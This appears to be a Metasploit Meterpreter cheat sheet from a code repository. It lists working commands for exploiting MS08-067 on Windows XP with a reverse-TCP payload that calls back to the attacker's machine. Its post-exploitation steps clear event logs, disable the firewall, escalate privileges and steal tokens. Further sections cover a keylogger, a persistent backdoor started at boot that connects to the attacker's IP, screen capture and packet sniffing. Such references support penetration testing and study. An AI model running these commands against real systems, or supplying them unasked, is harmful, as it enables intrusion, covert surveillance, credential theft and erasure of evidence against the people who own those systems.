 Metasploit Meterpreter cheats
=============================

<pre>
msfconsole    #starts metasploit
msfupdate     #updates metasploit
run + two tabs    #lists all meterpreter scripts
</pre>


<h4>Getting Meterpreter Shell:</h4>
netapi exploit
<pre>
#works almost all of the time with XP
msf> use exploit/windows/smb/ms08_067_netapi 
msf> set RHOST 192.168.1.101
msf> set PAYLOAD windows/meterpreter/reverse_tcp    #victim will connect back to the console to establish session
msf> set LHOST 192.168.1.100
msf> exploit
</pre>


<h4>Post Exploits:</h4>
<pre>
clearev     #wipes all system and security logs
execute -f cmd.exe -c -H    #creates cmd session and channelize; will keep prompt hidden
getdesktop    #shows current desktop sessions
getuid
getpid
getsystem -h    #privilege escalation, 0 will attempt every technique, 1 and 2 usually work
idletime
ipconfig
list_tokens -u    #lists user tokens by name
load incognito
migrate 1908    #migrates into process 1908
netsh firewall show opmode    #shows if firewall is up or not
netsh firewall set opmode mode= DISABLE     #turns firewall off
ps
rev2self    #reverts back to the user you exploited as
route
run checkvm   
run get_env
run get_application_list
run scraper     #access hashes > cd .msf4/logs/scripts/scraper/
run winenum     #access dump  > cd .msf4/logs/scripts/winenum/
steal_token 3280    #process to steal a token from
sysinfo
tasklist    #to view a list of processes
</pre>


<h4>Keystroke Logger:</h4>
<pre>
getuid    #should say SYSTEM
getdesktop #should say Session 0...\Default
ps    #find explorer.exe (in this case 1744)
migrate 1744
getpid    #verify that you are running as 1744
getdesktop    #should now say Session 0\WinSta0\Default
keyscan_start
keyscan_dump    #will print the text to the screen
keyscan_stop
</pre>


<h4>Persistence: </h4>
<pre>
run persistence -h    #shows options
run persistence -A -L c:\\ -X -i 10 -p 443 -r 192.168.1.100
# -A when the persistence backdoor connects back to the metasploit instance there will be something waiting to 
#   complete the connection
# -L location of payload in target host 
# c:\\ the location parameter
# -X automatically start when the system boots up
# -i number of seconds to wait before each connection attempt 
# 10 the parameter of time to wait
# -p 443 port that metasploit is listening
# -r ip address that the attacker machine is running on
# after running take note of resource file and its location to delete it afterwards

after connection:
background     #keeps process running in background
sessions -l     #lists the backdoor sessions
resource /root/.msf4/logs/persistence[path].rc    #removes the backdoor vb script
</pre>


<h4>Screen Capture:</h4>
<pre>
ps    #find process under username you want to exploit
migrate 3708 
use espia
screengrab
</pre>


<h4>Sniffer:</h4>
<pre>
load sniffer
sniffer_interfaces #look for interface that shows usable:True
sniffer_start 1 1024 #sniffing with adapter 1 and packet buffer of 1024
sniffer_stats 1 #looks at traffic 
sniffer_dump 1 dump.pcap
sniffer_stop 1
wireshark dump.pcap
</pre>
